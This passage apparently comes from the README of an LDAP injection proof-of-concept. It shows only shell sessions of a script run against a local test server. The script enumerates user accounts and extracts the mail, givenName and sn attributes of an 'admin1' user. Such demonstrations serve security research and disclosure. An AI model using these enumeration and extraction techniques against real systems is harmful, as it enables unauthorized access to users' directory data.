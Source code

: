 <script id="asciicast-enOT26z1Slsee3xEjBw1OL0Aw" src="https://asciinema.org/a/enOT26z1Slsee3xEjBw1OL0Aw.js" async></script>

```shell
$ ./poc.py --url http://127.0.0.1:8888/
[INFO] Enumerating users from http://127.0.0.1:8888/
admin1
admin2
admin3
admin4
admin5
admin6
admin7
user1
user2
user3
user4
```

### Retrieving LDAP attributes' values of `admin1` user

<script id="asciicast-eY8vBXftW00dQaYnJOsGO0ZOZ" src="https://asciinema.org/a/eY8vBXftW00dQaYnJOsGO0ZOZ.js" async></script>

```shell
$ ./poc.py --url http://127.0.0.1:8888/ --user admin1 --attr mail
[INFO] Exfiltrating mail attribute of admin1 user from http://127.0.0.1:8888/
admin1@example.com
$ ./poc.py --url http://127.0.0.1:8888/ --user admin1 --attr givenName
[INFO] Exfiltrating givenName attribute of admin1 user from http://127.0.0.1:8888/
admin1
$ ./poc.py --url http://127.0.0.1:8888/ --user admin1 --attr sn
[INFO] Exfiltrating sn attribute of admin1 user from http://127.0.0.1:8888/
last
```
